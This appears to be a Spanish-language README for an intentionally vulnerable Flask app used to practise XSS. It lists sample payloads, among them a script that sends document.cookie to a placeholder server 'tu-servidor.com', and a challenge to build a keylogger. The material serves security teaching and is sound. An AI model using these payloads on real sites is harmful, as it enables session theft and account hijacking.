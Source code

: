 [# 🛡️ XSS Lab Interactive](https://xsslabinteractive.pythonanywhere.com/)  

*Plataforma colaborativa para aprender y practicar vulnerabilidades XSS de forma segura y controlada*

![GitHub license](https://img.shields.io/github/license/infernoidpl4y/XSSLab)  
![Python](https://img.shields.io/badge/Python-3.x-blue)  
![Flask](https://img.shields.io/badge/Flask-2.x-orange)  
![OWASP](https://img.shields.io/badge/OWASP-Top_10-red)  

---

## 🎯 ¿Qué es XSS Lab?
Un entorno de aprendizaje práctico para estudiantes y profesionales de ciberseguridad, diseñado para **entender y practicar la explotación de vulnerabilidades XSS (Cross-Site Scripting)** en un entorno seguro y controlado.

> "No es solo destruir... es entender cómo funciona la seguridad web"  
> - InfernoidPl4y

---

## 🔧 Características Principales
- ✅ **Vulnerable intencionalmente** para pruebas de seguridad  
- 📚 Entorno controlado para experimentación segura  
- 💬 Sistema de publicaciones con inyección XSS en campo de texto  
- 🎨 Ejemplo predefinido: `!inject` para payloads básicos  
- 📉 Datos reiniciados automáticamente cada 48 horas  
- 🌐 Desplegable en plataformas como PythonAnywhere  
- 🤝 Diseñado para aprendizaje comunitario

---

## 📦 Tecnologías Utilizadas
- 🐍 **Python** (Flask framework)
- 💻 **HTML/CSS** (Frontend interactivo)
- 🔐 Enfoque en OWASP Top 10 (XSS específicamente)

---

## 🚀 Instalación Local

### Requisitos:
- Python 3.x
- pip (Python Package Manager)

### Pasos:
```bash
# Clona el repositorio
git clone https://github.com/infernoidpl4y/XSSLab.git

# Accede al directorio
cd XSSLab

# Instala dependencias
pip install -r requirements.txt

# Ejecuta la aplicación
python app.py
```

---

## 🧪 Cómo Usarlo

1. Abre el navegador en `http://localhost:5000`
2. Crea una publicación con código XSS:
   ```html
   <script>alert('¡XSS básico!')</script>
   ```
3. **Ejemplo rápido:** Escribe `!inject` en el campo XSS para ver un payload predefinido
4. Observa el comportamiento y experimenta con diferentes payloads

---

## ⚠️ Aviso Importante
- **Solo para fines educativos**
- **No introduzcas información sensible**
- **Los datos se reinician periódicamente**

---

## 🧠 Ejemplos de Payloads para Pruebas

### Básico
```html
<script>alert('XSS')</script>
```

### Estilo Visual
```html
<style>
  body { background: red; transition: all 2s; }
</style>
```

### Redirección Silenciosa
```html
<script>window.location.href='https://example.com'</script>
```

### Captura de Cookies (Ejemplo académico)
```html
<script>
  fetch('https://tu-servidor.com/log?data='+document.cookie)
</script>
```

---

## 🧰 Desafíos Recomendados

### Nivel Principiante
- Crea una alerta que salte al cargar la página

### Nivel Intermedio
- Modifica el estilo de otra publicación

### Nivel Avanzado
- Inyecta un script que capture entradas del teclado

---

## 📸 Captura de Pantalla
![XSS Lab Demo](https://via.placeholder.com/800x500?text=XSS+Lab+Interactive+Demo)

---

## 🤝 Contribuciones
¡Las mejoras y contribuciones son bienvenidas!  
Por favor lee el [CONTRIBUTING.md](CONTRIBUTING.md) para más detalles.

---

## 📬 Contacto
InfernoidPl4y - infernoidpl4y@gmail.com  
Portfolio: [infernoidpl4y.netlify.app](https://infernoidpl4y.netlify.app)
